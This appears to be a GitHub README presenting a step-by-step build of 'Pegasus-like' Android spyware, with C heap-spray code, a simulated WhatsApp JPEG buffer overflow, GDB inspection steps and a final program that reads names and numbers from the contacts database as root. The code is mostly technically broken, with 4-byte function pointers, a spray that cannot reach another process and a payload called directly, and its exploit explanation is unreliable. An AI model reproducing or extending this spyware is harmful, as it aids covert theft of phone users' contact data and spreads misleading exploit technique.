

# A-peg-with-sos
Line's kitchen


## 📝 Step 1: Write the Heap Spray Code (heap_spray.c)

This program allocates large blocks of memory and fills them with our payload.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define CHUNK_SIZE 0x10000 // 64KB chunks
#define NUM_CHUNKS 100     // Spray 100 chunks
#define PADDING 'A'        // Fill with 'A's (0x41) for predictability

// Our "Shellcode" or Payload marker
void payload_function() {
    printf("[*] Heap Sprayed! Payload Executed.\n");
    // In a real attack, this would be the address of pegasus_root
}

int main() {
    char **chunks;
    
    // Allocate an array of pointers to hold our heap chunks
    chunks = malloc(NUM_CHUNKS * sizeof(char *));
    
    printf("[*] Starting Heap Spray...\n");
    
    for (int i = 0; i < NUM_CHUNKS; i++) {
        // Allocate a chunk of memory
        chunks[i] = malloc(CHUNK_SIZE);
        
        if (chunks[i]) {
            // Fill the chunk with our payload marker 'A'
            memset(chunks[i], PADDING, CHUNK_SIZE - 4);
            
            // Put a pointer to our function at the end of the chunk
            // This is where the buffer overflow will likely jump to
            memcpy(chunks[i] + CHUNK_SIZE - 4, &payload_function, 4);
        }
    }
    
    printf("[*] Heap Sprayed. Waiting for exploit...\n");
    
    // Keep the program running so memory stays allocated
    while(1) {
        sleep(10);
    }
    
    free(chunks);
    return 0;
}
```


## 🏗️ Step 2: Compile and Run

```
# Compile
gcc -o heap_spray heap_spray.c

# Run in background
./heap_spray &

# Check memory usage
top | grep heap_spray
```


## 🎯 Step 3: The Exploit (Simulated Buffer Overflow)

Now, imagine a vulnerable function in WhatsApp that reads our malware.jpg.

```
#include <stdio.h>
#include <string.h>

// Simulating a vulnerable buffer in WhatsApp's image decoder
void vulnerable_function() {
    char buffer[64]; // Small buffer
    
    // Simulate reading from the JPEG file (which we sprayed)
    // If the JPEG contains more than 64 bytes, it overflows
    strcpy(buffer, "AAAAAAAA..."); // This string is longer than 64 bytes
    
    printf("[*] Vulnerable function executed.\n");
}

int main() {
    vulnerable_function();
    return 0;
}
```


## In a real attack:

Heap Spray fills memory with 0x41 (A) and pointers to our payload.

JPEG Decoder reads the file.

Buffer Overflow occurs because the file is larger than the buffer.

Return Address is overwritten with the address of our payload (from the heap).

Control Flow jumps to pegasus_root.


## 🔍 Step 4: Using GDB to Visualize Heap Spraying

To truly see this, use GDB (GNU Debugger) in Termux or Linux.

Install GDB:

```
pkg install gdb
```

Compile with Debug Symbols:

```
gcc -g -o heap_spray_debug heap_spray.c
```

Run in GDB:

```
gdb ./heap_spray_debug
```

Set Breakpoints and Inspect Memory:

```
(gdb) break main
(gdb) run
(gdb) info malloc-stats   # Show heap usage
(gdb) x/100xw 0x12345678  # Examine memory at a specific address (replace with actual address from malloc)
```

You will see chunks of 0x41 (A) and pointers to your payload.


## 📦 Step 5: Integrating Heap Spray into the Spyware Payload

In a real Pegasus-like attack, the heap spray is part of the JPEG file itself. The JPEG contains:

Header: Standard JPEG header.

Data: Large blocks of 0x41 (padding).

Shellcode: The actual pegasus_root binary code.

Pointers: Addresses pointing back to the shellcode.

When WhatsApp decodes the JPEG, it allocates memory for the image. Because we sprayed the heap with similar data, the decoder might jump to our shellcode.


## 🚀 Step 6: Final Code for Heap-Sprayed Spyware (pegasus_spray.c)

This code combines heap spraying and root extraction.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <sqlite3.h>
#include <curl/curl.h>

#define CHUNK_SIZE 0x10000
#define NUM_CHUNKS 200
#define PADDING 'A'

// Payload function (simulated shellcode)
void payload() {
    printf("[*] Heap Spray Hit! Executing Root Spyware...\n");
    
    // Check root
    if (getuid() == 0) {
        printf("[*] Root Access Granted.\n");
        
        // Query contacts
        sqlite3 *db;
        sqlite3_open("/data/data/com.android.providers.contacts/databases/contacts2.db", &db);
        
        char *query = "SELECT display_name, number FROM data LIMIT 10;";
        char **results;
        int nrow, ncolumn;
        
        sqlite3_get_table(db, query, &results, &nrow, &ncolumn, NULL);
        
        printf("[*] Extracted Contacts:\n");
        for (int i = 0; i < nrow; i++) {
            printf("Name: %s, Number: %s\n", 
                   results[(i * ncolumn) + 1], 
                   results[(i * ncolumn) + 2]);
        }
        
        sqlite3_close(db);
    } else {
        printf("[!] Not Root.\n");
    }
}

int main() {
    char **chunks;
    chunks = malloc(NUM_CHUNKS * sizeof(char *));
    
    for (int i = 0; i < NUM_CHUNKS; i++) {
        chunks[i] = malloc(CHUNK_SIZE);
        memset(chunks[i], PADDING, CHUNK_SIZE - 4);
        // Point to payload function
        memcpy(chunks[i] + CHUNK_SIZE - 4, &payload, 4);
    }
    
    printf("[*] Heap Sprayed. Waiting for exploit...\n");
    
    // Simulate exploit trigger
    sleep(5);
    payload(); // In real attack, this is triggered by overflow
    
    while(1) {
        sleep(60);
    }
    
    free(chunks);
    return 0;
}
```





## 📝 Final Code Summary (pegasus_spray.c)

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sqlite3.h>

#define CHUNK_SIZE 0x10000
#define NUM_CHUNKS 200
#define PADDING 'A'

void payload() {
    printf("[*] Heap Spray Hit! Executing Root Spyware...\n");
    if (getuid() == 0) {
        printf("[*] Root Access Granted.\n");
        sqlite3 *db;
        sqlite3_open("/data/data/com.android.providers.contacts/databases/contacts2.db", &db);
        char *query = "SELECT display_name, number FROM data LIMIT 10;";
        char **results;
        int nrow, ncolumn;
        sqlite3_get_table(db, query, &results, &nrow, &ncolumn, NULL);
        for (int i = 0; i < nrow; i++) {
            printf("Name: %s, Number: %s\n", 
                   results[(i * ncolumn) + 1], 
                   results[(i * ncolumn) + 2]);
        }
        sqlite3_close(db);
    } else {
        printf("[!] Not Root.\n");
    }
}

int main() {
    char **chunks;
    chunks = malloc(NUM_CHUNKS * sizeof(char *));
    
    for (int i = 0; i < NUM_CHUNKS; i++) {
        chunks[i] = malloc(CHUNK_SIZE);
        memset(chunks[i], PADDING, CHUNK_SIZE - 4);
        memcpy(chunks[i] + CHUNK_SIZE - 4, &payload, 4);
    }
    
    printf("[*] Heap Sprayed. Waiting for exploit...\n");
    sleep(5);
    payload();
    
    while(1) {
        sleep(60);
    }
    
    free(chunks);
    return 0;
}
```

Powered by 0m1
